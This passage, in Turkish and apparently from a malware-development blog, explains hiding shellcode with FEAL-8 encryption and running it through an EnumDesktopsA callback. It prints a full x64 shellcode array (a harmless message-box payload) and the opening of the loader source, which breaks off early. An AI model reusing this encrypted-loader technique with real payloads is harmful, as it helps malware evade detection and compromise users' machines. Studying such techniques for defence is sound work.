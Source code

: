 ```cpp
```

İlk fonksiyon, verilen shellcode'u (`meow-meow` mesaj kutusu yükü) `FEAL-8` şifrelemesi kullanarak şifrelemekten sorumludur. Shellcode'u `64-bit`lik bloklar (`8 bayt`) halinde işler ve eğer tam bir bloğa sığmayan kalan baytlar varsa, bunları `0x90` (`NOP`) ile doldurarak şifreler.     

Son olarak, `main` fonksiyonu `FEAL-8` kullanarak shellcode'u şifreleme, çözme ve çalıştırma işlemlerini gösterir.    

Her zamanki gibi `meow-meow` mesaj kutusu payload'u kullandım:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Ve şifresi çözülen payload, `EnumDesktopsA` fonksiyonu kullanılarak çalıştırılır.    

Tam kaynak kodu şu şekildedir (`hack.c`):    

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8    // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

```